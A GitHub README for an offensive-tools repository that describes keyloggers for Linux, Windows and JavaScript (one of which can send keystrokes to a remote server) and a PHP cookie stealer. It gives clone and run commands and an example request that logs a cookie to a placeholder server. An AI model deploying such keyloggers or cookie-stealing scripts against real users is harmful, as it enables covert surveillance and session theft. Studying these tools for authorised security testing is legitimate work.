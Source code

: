 <h1 align='center'>Disclaimer</h1>
These tools are intended for educational and ethical penetration testing only. Unauthorized use of these tools to monitor systems without permission is illegal and unethical.
<li><b>Installation:</b>
<pre><code>git clone https://github.com/Kode-n-Rolla/evil-codes.git
cd evil-codes</code></pre>
<h2 align='center'>Keyloggers</h2>
<p>The keyloggers are designed to capture keystrokes and log activity on different operating systems. Please note that these are the first versions and will be refined and enhanced over time. These keyloggers designed for educational and ethical purposes.
<ol>
  <h3><li>Linux Keylogger</h3>
    <ul>
      <li><b>Description:</b> This keylogger is specifically designed for Linux environments. It listens to keyboard events through the /dev/input devices and logs keystrokes to a file. The keylogger can also detect active processes using xdotool if available
      <li><b>Features:</b>
        <ul>
          <li>Captures and logs keystrokes directly from input devices
          <li>Supports the mapping of key codes to human-readable characters
          <li>Writes logs to a file for easy review and analysis
          <li>Requires root privileges for access to input devices
        </ul>
      <li><b>Run</b> the keylogger with root permissions:
            <pre><code>sudo python linux_keylogger.py</code></pre>
    </ul>
    <h3><li>Windows Keylogger</h3>
      <ul>
        <li><b>Description:</b> The Windows version of the keylogger leverages the Windows API and <code>psutil</code> library to capture active window information, process details, and keystrokes. It logs all activities into a file for analysis
        <li><b>Features:</b>
          <ul>
            <li>Captures and logs keystrokes using the Windows API
            <li>Retrieves active window and process information for detailed logging
            <li>Supports keyboard layout detection for accurate log representation
            <li>Outputs logs to a file with detailed information about the active application and layout
          </ul>
              <li><b>Run</b> the keylogger:
                <pre><code>python windows_keylogger.py</code></pre>
      </ul>
      <h3><li>Java Script Keylogger</h3>
            <ul>
        <li><b>Description:</b> It logs keypress events, including standard characters, special function keys (e.g., Esc, Enter, Backspace), and modifier keys (Shift, Ctrl, Alt). The keylogger also captures key combinations to provide more comprehensive data. The                   project showcases JavaScript's event handling capabilities, which could be useful in understanding how keylogging works
        <li><b>Features:</b>
          <ul>
            <li>Logs Regular Keys: Captures standard keyboard characters, including letters, numbers, and symbols
            <li>Detects Modifier Keys: Recognizes Shift, Ctrl, Alt, and Meta (Windows/Command) keys and includes them in the log
            <li>Records Special Function Keys: Handles function keys (Esc, Backspace, Delete, Enter, Caps Lock, Tab, and arrow keys)
            <li>Key Combination Logging: Logs combinations like Ctrl + C, Shift + A, or Alt + Enter
            <li>Optional Server Communication: Allows sending logged key data to a server endpoint (e.g., for remote analysis)
          </ul>
              <li><b>How to use:</b>
                <ul><li>Place the JavaScript file containing the keylogger code into an HTML file, or link it via a &lt;script> tag</ul>
</ol>
<h2 align='center'>Cookie Stealer (.php)</h2>
              <li><b>Description:</b> This project is a simple PHP script that captures and logs cookies sent via URL parameters. The script is intended for educational and ethical purposes, such as security research and demonstration of cookie handling in web                           applications. It logs any <code>cookie</code> parameter passed through a GET request to a local file named <code>stolen_cookies.txt</code> in the same directory. Each log entry is timestamped for easy reference.
              <li><b>Warning:</b> This script should only be used in controlled environments and with permission. Unauthorized use of this tool to capture cookies is illegal and unethical.
              <li><b>How It Works:</b>
                <ol>
                  <li>The script checks for a URL parameter named <code>cookie</code>
                  <li>If <code>cookie</code> is present, its value is saved to a file <code>stolen_cookies.txt</code> along with the current timestamp
                  <li>If the parameter is missing, the script simply returns a message saying "No cookie"
                </ol>
              <li><b>Example:</b>
                To log a cookie with a value of example_cookie_value, make a GET request like this:
                <pre><code>http://your-server.com/cookie-stealer.php?cookie=example_cookie_value</code></pre>
<h2 align='center'>Future Improvements:</h2>
<ul>
  <li><b>Security Enhancements:</b> Aim to make the keyloggers more robust and add encryption to protect the captured logs
  <li><b>Additional Platforms:</b> Support for macOS and possible improvements to cross-platform functionality
  <li><b>Process Tracking:</b> Improvements in tracking processes and window changes in Linux, similar to the Windows version
  <li><b>Customization:</b> Providing more customizable settings, such as changing the log file location, log formatting, and more
</ul>
